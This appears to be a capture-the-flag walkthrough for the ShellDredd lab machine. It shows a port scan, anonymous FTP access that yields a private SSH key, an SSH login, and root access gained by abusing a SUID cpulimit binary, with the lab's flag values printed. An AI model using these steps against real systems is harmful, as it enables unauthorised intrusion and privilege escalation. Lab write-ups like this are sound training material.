 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.189.130

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 192.168.189.130
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```
-> Didnt find much, so I try to login to the ftp using anonymous
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.189.130

Connected to 192.168.189.130.
220 (vsFTPd 3.0.3)
Name (192.168.189.130:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||6612|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||11263|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||32516|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************|  1823        8.64 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (13.57 KiB/s)
ftp> exit
221 Goodbye.
```
-> Here I found an user called hannah that had an id_rsa, allowing me to connect ssh and get the first flag                
```
┌──(root㉿kali)-[/home/astra]
└─# chmod 600 id_rsa 
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# ssh hannah@192.168.189.130 -i id_rsa -p 61000

The authenticity of host '[192.168.189.130]:61000 ([192.168.189.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.189.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ ls  
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt 
4b60792fff07d9c593515a95f28da053
hannah@ShellDredd:~$ 
```

-> Now I need to escalate privileges, I start it by doing a search for files with SUID permission
```
hannah@ShellDredd:~$ find / -perm -4000 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
hannah@ShellDredd:~$ 
```
-> I see "cpulimit" and I think we can exploit that, after searching the web for a while I found this

"
SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

sudo install -m =xs $(which cpulimit) .

./cpulimit -l 100 -f -- /bin/sh -p"

We can use this to get root access, so lets get to it
```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1247 detected
# whoami
root
# 
```
-> Done, now we get the root flag 
```
# cd root
# ls
proof.txt  root.txt
# cat proof.txt
9dc861ef08a1562bea36e2fce7803869
# 
```
-> Thats it !

